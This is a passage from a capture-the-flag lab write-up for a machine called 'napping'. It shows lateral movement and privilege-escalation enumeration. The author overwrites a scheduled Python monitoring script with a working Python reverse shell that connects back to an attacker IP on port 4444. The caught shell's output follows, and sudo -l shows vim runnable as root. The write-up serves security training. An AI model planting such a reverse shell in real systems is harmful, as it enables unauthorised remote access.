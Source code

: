 ```python
    f.write(dt_string)
    f.write("\n")
    f.close()
```

And the **site_status.txt** file:

```
Site is Up: 19/03/2022 20:40:01
Site is Up: 19/03/2022 20:41:02
```

So this python script runs approximately once a minute to check if the website on localhost is up and running, and if it is logs it to the site_status.txt file.

I'm thinking we can modify this python script and laterally move over to adrian since the script will execute as adrian, and we have the authority to modify it being in the administrators group.

<br>

## Adrian

I set up a nc listener on my system and modify the **query.py** script to a popular python reverse shell:

```python
import os, pty, socket

s = socket.socket()    
s.connect(("MY IP", 4444))
[os.dup2(s.fileno(), f) for f in (0, 1, 2)]
pty.spawn("bash")
```

And sure enough, we get a shell back the next time the script runs:

```bash
istening on [any] 4444 ...
connect to [MY IP] from (UNKNOWN) [10.10.249.163] 47096
adrian@napping:~$
```

With that we can grab the **user.txt** flag.

`wc -c user.txt`

```bash
56 user.txt
```

<br>

## Root

We previously saw the **.sudo_as_admin_successful** file in the adrian home directory, so I run a `sudo -l` and see:

```bash
Matching Defaults entries for adrian on napping:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User adrian may run the following commands on napping:
    (root) NOPASSWD: /usr/bin/vim
```
